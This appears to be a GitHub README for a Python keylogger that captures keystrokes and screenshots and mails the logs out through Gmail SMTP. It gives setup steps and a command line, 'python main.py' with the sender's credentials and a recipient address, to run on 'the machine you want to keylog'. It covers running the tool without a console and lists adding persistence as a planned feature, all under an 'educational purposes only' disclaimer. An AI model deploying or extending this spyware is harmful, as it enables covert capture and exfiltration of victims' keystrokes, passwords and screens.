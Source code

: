 # Copyright (C) 2020  Cennef0x
# Python-Keylogger
Python Keylogger with screenshots

This program is free software: you can redistribute it and/or modify it

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
This script was made available for informational and educational purposes only.
Any actions and or activities related to the material contained within this Repository is solely your responsibility.The misuse of these scripts can result in criminal charges brought against the persons in question. Any actions and or activities related to the material contained within this Website is solely your responsibility.The misuse of the information in this website can result in criminal charges brought against the persons in question. The author will not be held responsible in the event any criminal charges be brought against any individuals misusing the scripts in this repository to break the law.
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


This script use gmail smtp servers, you will need and account to send the keystrokes log.

STEP 1 - Install the requirements

STEP 2 - Add your API KEY into screenshoter.py at line 20

STEP 3 - Start the script from the console in the machine your want to keylog : 

python main.py "myemail@gmail.com" "myemailpassword" "theemailyouwanttosendthelogs@mail.com

To stop it close the cli or kill the process if you use executed this script without the console

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# To-Do 

- Make it persistent
